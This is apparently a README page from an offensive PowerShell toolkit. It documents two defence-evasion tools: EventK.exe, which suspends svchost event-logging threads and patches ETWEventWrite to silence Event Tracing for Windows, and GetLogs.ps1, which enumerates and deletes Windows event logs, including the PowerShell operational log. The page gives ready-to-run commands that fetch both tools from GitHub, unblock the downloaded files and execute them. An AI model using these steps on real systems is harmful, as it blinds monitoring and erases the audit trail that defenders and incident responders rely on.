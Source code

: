 ## EventK.exe

|Binary Name|Description|Privileges|Notes|
|---|---|---|---|
|EventK|Suspend thread in svchost.exe related to event logging (@SolomonSklash)|Administrator|[Screenshot](https://naoexiste)|

<br />

**Download cmdlet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/ETWpatch/eventK.exe" -OutFile "eventK.exe"|Unblock-File
```

<br />

**Execute:**
```powershell
.\eventK.exe
```

<br />

**Final Notes:**
```powershell
[ETW Bypass]
Coverage of Event Tracing for Windows (ETW). The solution in this case is simple:
Patch the ETWEventWrite function to return early with 0 in the RAX register. Anytime an ETW
event is sent by the process, it will always succeed, without actually sending the message.
```

Article: https://www.solomonsklash.io/windows-evasion-course-review.html

<br />

## GetLogs.ps1

|Cmdlet Name|Description|Privileges|Notes|
|---|---|---|---|
|[GetLogs](https://github.com/r00t-3xp10it/redpill/blob/main/bin/GetLogs.ps1)|Enumerate \ Read \ Delete eventvwr logfiles (ETW)|User Land (enum) \ Administrator (delete)|[Screenshot1](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/ETWpatch/GetLogs-enum.png)<br />[Screenshot2](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/ETWpatch/GetLogs-yara.png)<br />[Screenshot3](https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/lib/ETWpatch/GetLogs-del.png)|

<br />

**Download cmdlet:**
```powershell
iwr -uri "https://raw.githubusercontent.com/r00t-3xp10it/redpill/main/bin/GetLogs.ps1" -OutFile "GetLogs.ps1"
```

<br />

**Execute:**
```powershell
#Lists ALL eventvwr categorie entrys
.\GetLogs.ps1 -GetLogs 'Enum'

#List newest 3 (default) Powershell\Application\System entrys
.\GetLogs.ps1 -GetLogs 'Verbose'

#List newest 8 Powershell\Application\System entrys
.\GetLogs.ps1 -GetLogs 'Verbose' -NewEst '8'

#List newest 28 logs using cmdlet default Id's and categories!
.\GetLogs.ps1 -GetLogs 'Yara' -NewEst '28'
   
#List newest 13 logfiles with Id: 59 using cmdlet default categories!
.\GetLogs.ps1 -GetLogs 'Yara' -NewEst '13' -Id '59'
   
#List newest 10 logfiles of 'system' categorie with id: 1
.\GetLogs.ps1 -GetLogs 'Yara' -verb "system" -Id '1' -NewEst '10'

#List newest 3 (default) logfiles of 'NetworkProfile/Operational' categorie with Id: 10001
.\GetLogs.ps1 -GetLogs 'Yara' -Verb "Microsoft-Windows-NetworkProfile/Operational" -id '10001'

#Delete ALL eventvwr (categories) logs from snapIn!
.\GetLogs.ps1 -GetLogs 'DeleteAll'

#Delete ONLY logfiles from "Microsoft-Windows-Powershell/Operational" eventvwr categorie!
.\GetLogs.ps1 -GetLogs 'DeleteAll' -Verb "Microsoft-Windows-Powershell/Operational"
```
